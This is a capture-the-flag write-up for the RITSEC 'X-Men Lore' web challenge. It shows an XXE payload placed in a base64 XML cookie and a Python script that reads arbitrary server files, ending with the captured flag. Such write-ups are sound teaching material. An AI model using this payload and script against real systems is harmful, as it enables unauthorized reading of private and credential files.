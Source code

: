 # X-Men Lore

## Challenge Description

The 90's X-Men Animated Series is better than the movies. Change my mind.

https://xmen-lore-web.challenges.ctf.ritsec.club/

## Solution

The webpage has different link tags for different X-Men characters. The interesting part is the fact that on click for each of this link tags the cookie gets set to a certain value.

The value is a base64 encoded string. Upon decoding we get an XML structure as the following:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
    <xmen>Storm</xmen>
</input>
```

Since we are dealing with XML I imediately thought of XXE. So I create a simple XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///{file}"> ]>
<input>
    <xmen>&xxe;</xmen>
</input>
```

Where `{file}` is the file I want to read. I included this in the python script to test for different files:

```python
import requests
import base64
while True:
    url = "https://xmen-lore-web.challenges.ctf.ritsec.club/xmen"
    file = input("> ")
    b64encode = base64.b64encode(bytes(
        f'<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///{file}"> ]><input><xmen>&xxe;</xmen></input>', 'utf-8'))
    cookie = {"xmen": b64encode.decode('utf-8')}
    res = requests.get(url, cookies=cookie)
    print(res.text)
```

Then I started to test for different files. Upon checking the `/flag` file I got the flag.

## Flag

RS{XM3N_L0R3?\_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
